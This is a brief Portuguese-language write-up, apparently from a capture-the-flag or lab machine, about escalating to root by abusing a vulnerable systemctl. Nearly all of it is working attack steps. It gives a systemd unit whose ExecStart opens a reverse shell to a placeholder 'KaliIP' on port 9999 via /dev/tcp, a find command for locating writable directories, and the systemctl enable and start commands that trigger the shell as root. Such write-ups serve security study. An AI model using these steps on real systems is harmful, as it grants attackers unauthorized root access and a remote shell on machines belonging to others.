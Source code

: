 O processo de entrar na máquina é bem detalhado

encontramos o serviço systemctl vulneravel

Cria o ``root.service``
```
[Unit]
Description=rooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

e da upload na máquina onde quer q vc consiga escrever.
esse comando acha os diretórios que podem ser escritos
``find / -type f -maxdepth 2 -writable``

depois usa:
``/bin/systemctl enable /dev/shm/root.service``

``/bin/systemctl start root`` e pronto


